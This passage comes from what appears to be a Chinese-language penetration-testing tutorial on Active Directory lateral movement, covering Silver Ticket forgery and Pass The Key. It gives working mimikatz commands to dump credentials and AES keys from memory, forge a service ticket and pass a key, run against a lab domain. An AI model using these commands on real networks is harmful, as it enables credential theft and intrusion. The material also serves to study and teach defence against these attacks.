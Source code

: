  **特点：**

  * 不需要与KDC进行交互；需要server的NTLM hash。

    
    
    privilege::debug  
    sekurlsa::logonpasswords  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001725.png)

    
    
    kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089-1000 /target:owa.god.org /service:cifs /rc4:105c2352f5e8a768ca560cd1950f69b2 /user:liukaifeng01 /ptt  
    

rc4用域控的NTML Hash

![](https://gitee.com/fuli009/images/raw/master/public/20220220001726.png)

成功利用

## 0x04 Pass The Key

PTK是在域中攻击kerberos认证的一种方式，原理是通过获取用户的aes
hmac，通过kerberos认证，可在NTLM认证被禁止的情况下用来实现类似PTH的功能。

在 WinXP/2003/Vista/2008 ，以及未打 KB2871997 补丁之前（AES 不可用或不可替代）的 Win7/2008r2/8/2012
中强制使用 NTLM 哈希，AES 密钥只有在 8.1/2012r2 和打了 kb2871997 补丁的 7/2008r2/8/2012
中才可以替换，在这种情况下，你可以避免使用 NTLM 哈希。

KB2871997：禁止本地管理员账户用于远程连接，这样就无法以本地管理员用户的权限执行wmi、psexec、schtasks、at和访问文件共享。

这个补丁发布后常规的Pass The Hash已经无法成功，唯独默认的 Administrator (SID
500)账号例外，利用这个账号仍可以进行Pass The Hash远程连接，即使administrator修改了名字

但是还可以通过AES密钥来替代NTLM验证进行横向的操作，其实这个补丁挺鸡肋的，不用AES密钥照样也可以用NTLM，只是需要Administrator（SID
500），都拿到机器了，Administrator还不容易吗？这个补丁唯一的好处就是减少存储在内存中的凭据数据，也就是让wdigest协议认证的凭据不会存储在lsass.exe，这样子当你dump
lsass.exe的时候你就会发现，wdigest协议中的凭据你就看不到了

    
    
    privilege::debug  
    sekurlsa::ekeys  
    

![](https://gitee.com/fuli009/images/raw/master/public/20220220001728.png)![](https://gitee.com/fuli009/images/raw/master/public/20220220001729.png)

利用Pass The Key

    
    
    privilege::debug  
    sekurlsa::pth /user:liukaifeng01 /domain:god.org /aes256:fd272d8259cd443bdf608f5c633ae8e3274ed8e4da3c5a04d9e2ce59807601c0  
    

如果测试失败就尝试安装KB2871997补丁

这里测试成功
